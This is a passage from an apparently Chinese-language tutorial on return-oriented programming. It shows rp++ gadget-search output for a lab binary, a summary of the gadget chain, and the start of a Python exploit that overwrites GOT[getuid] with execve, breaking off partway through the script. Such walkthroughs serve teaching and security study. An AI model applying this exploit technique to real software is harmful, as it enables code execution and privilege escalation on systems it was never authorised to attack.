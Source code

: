 ```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 5
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
183 found.

A total of 183 gadgets found.
...
0x080485ca: les (%ebx,%ebx,2), %ebx ; popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048498: movb $0x00000001, 0x0804A028 ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
0x0804849b: movb 0x83010804, %al ; les (%ebx,%ebx,2), %eax ; popl %ebp ; ret ; (1 found)
...
$
```

现在我们完成了零件的搜索。让我们开始游戏吧！

## 零件搜索总结

+   为了零件 1 的成功调用，我们需要零件 2 和 3。
+   由于零件 3 不存在，我们执行手动搜索，并找到了零件 4、5、6 和 7。
+   为了零件 4 的成功调用，我们需要零件 5、6 和 7。

## 利用代码

下面的利用代码使用`execve`函数地址覆盖了`GOT[getuid]`：


```py
#!/usr/bin/env python
import struct
from subprocess import call

'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''

g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18 #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530

#endianess convertion
```